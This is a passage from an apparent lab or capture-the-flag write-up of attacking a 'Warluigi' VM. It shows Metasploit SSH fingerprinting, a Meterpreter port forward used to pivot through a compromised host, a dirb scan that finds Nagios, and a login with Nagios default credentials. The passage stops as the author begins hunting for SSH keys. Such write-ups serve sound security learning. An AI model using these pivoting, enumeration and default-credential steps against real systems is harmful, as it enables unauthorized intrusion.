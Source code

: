 The results of the port scan indicated that ports 22 and 80 were open with services listening on them, so I loaded up the `ssh_version` module to verify which SSH server was running and to try and fingerprint the OS; which is seemingly Ubuntu 14.04:

```shell_session
msf auxiliary(tcp) > use auxiliary/scanner/ssh/ssh_version
msf auxiliary(ssh_version) > set RHOSTS 192.168.122.122
RHOSTS => 192.168.122.122
msf auxiliary(ssh_version) > run

[*] 192.168.122.122:22    - SSH server version: SSH-2.0-OpenSSH_6.6.1p1 Ubuntu-2ubuntu2 ( service.version=6.6.1p1 openssh.comment=Ubuntu-2ubuntu2 service.vendor=OpenBSD service.family=OpenSSH service.product=OpenSSH os.vendor=Ubuntu os.device=General os.family=Linux os.product=Linux os.version=14.04 service.protocol=ssh fingerprint_db=ssh.banner )
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

## Warluigi Web Server Fingerprinting
As the web server running on the Warluigi machine wasn't visible from outside the Mario host, I setup a port forward via the Meterpreter session to get access to it:

```shell_session
meterpreter > portfwd add -l 8080 -p 80 -r 192.168.122.122
[*] Local TCP relay created: :8080 <-> 192.168.122.122:80
```

With the port forward setup, I proceeded to run Nikto and dirb against the web server. Nikto was unable to find anything of interest, but dirb did find a Nagios installation that is protected by basic authentication:

```shell_session
root@kali:~# dirb http://10.2.0.3:8080 /usr/share/dirb/wordlists/big.txt
***
---- Scanning URL: http://10.2.0.3:8080/ ----
+ http://10.2.0.3:8080/cgi-bin/ (CODE:403|SIZE:285)
+ http://10.2.0.3:8080/nagios (CODE:401|SIZE:456)
+ http://10.2.0.3:8080/server-status (CODE:403|SIZE:290)
***
```

Metasploit contained no entry for Nagios in it's default credentials list, but a quick search revealed the default credentials for certain versions of Nagios are `nagiosadmin:nagios`, which was the case on the Warluigi VM.

I looked around the Nagios management page, but couldn't find any functionality that seemed exploitable at first glance, and none of the exploits I tried were successful.

## More Enumeration and Private Key Cracking
As there didn't seem to be any vulnerabilities in the web server, I went back to the Mario host session and began doing more enumeration. Meterpreter had previously failed to find any SSH keys, so I decided to search the entire file system, rather than just the default locations the post module checks:
